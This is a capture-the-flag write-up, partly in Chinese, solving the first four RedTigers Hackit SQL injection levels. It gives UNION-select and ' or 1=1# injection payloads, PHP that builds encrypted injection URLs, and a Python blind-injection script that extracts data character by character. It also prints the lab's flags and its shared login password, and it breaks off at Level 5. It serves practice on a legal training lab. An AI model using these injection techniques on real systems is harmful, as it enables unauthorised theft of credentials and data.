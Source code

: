 # SQL Practice@[RedTigers Hackit](http://redtiger.labs.overthewire.org)

## Level 1

1.  确定列数: `?cat=1 order by 5`
2.  确定显示位置:　`?cat=0 union select 1,2,3,4 from level1_users`
3.  Get: `?cat=0 union select 1,2,username,password from level1_users`
4.  flag: `27cbddc803ecde822d87a7e8639f9315`

## Level 2

1.  `' or 1=1#`
2.  flag: `1222e2d4ad5da677efb188550528bfaa`

## Level 3

> Target: Get the password of the user Admin.
> Hint: Try to get an error. Tablename: level3_users

1.  构造错误: `level3.php?usr[]=MTI5MTY0MTczMTY5MTc0`
    > Show userdetails:
    > Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21
2.  [urlcrypt.inc](./level_3/urlcrypt.inc)
3.  得到两个函数，encrypt和decrypt分别用来解密和加密
4.  构造PHP语句，确定列数:
    ```php
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='admin\'order by 7 #';
    $order=encrypt($order);
    echo "$url$order <br>";
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='admin\'order by 8 #';
    $order=encrypt($order);
    echo "$url$order <br>";
    ```
5.  构造PHP语句，拿到flag:
    ```php
    $url='http://redtiger.labs.overthewire.org/level3.php?usr=';
    $order='\' union select 1,username,3,password,5,6,7 from level3_users where username=\'admin\' #';
    $order=encrypt($order);
    echo "$url$order <br>";
    ```
6.  flag: a707b245a60d570d25a0449c2a516eca

## Level 4

>  Target: Get the value of the first entry in table level4_secret in column keyword
>
>  Disabled: like

1.  判断目标长度: `?id=1 and length(keyword)=17`

2.  猜测目标内容：`?id=1 and ASCII(SUBSTR(keyword,1,1))=0`

3.  自动化猜测：

        ```python

    import requests
    def search(p,l,r):
        if l > r:
            return False
        x=(l+r) // 2
        re=s.post(url+order % (p,'=',x),data = login)
        if '1 rows.' in re.text:
            return chr(x)
        re=s.post(url+order % (p,'>',x),data = login)
        if '1 rows.' in re.text:
            return search(p,x+1,r)
        else:
            return search(p,l,x-1)
    s = requests.Session()
    login = {'password': 'dont_publish_solutions_GRR!',
             'level4login': 'Login'}
    url='<http://redtiger.labs.overthewire.org/level4.php>'
    order='?id=1 and length(keyword)>'
    i=16
    while i &lt; 32767:
        re=s.post(url+order+str(i),data = login)
        if '0 rows.' in re.text:
            length=i
            break
        i=i+1
    print 'length=',length
    keyword=''
    order='?id=1 and ASCII(SUBSTR(keyword,%d,1))%s%d'
    for i in range(1,length+1):
        keyword=keyword+search(i,32,126)
        print i,'/',length,keyword
    print 'keyword=',keyword

        	```

4.  flag: `e8bcb79c389f5e295bac81fda9fd7cfa`

## Level 5

1.
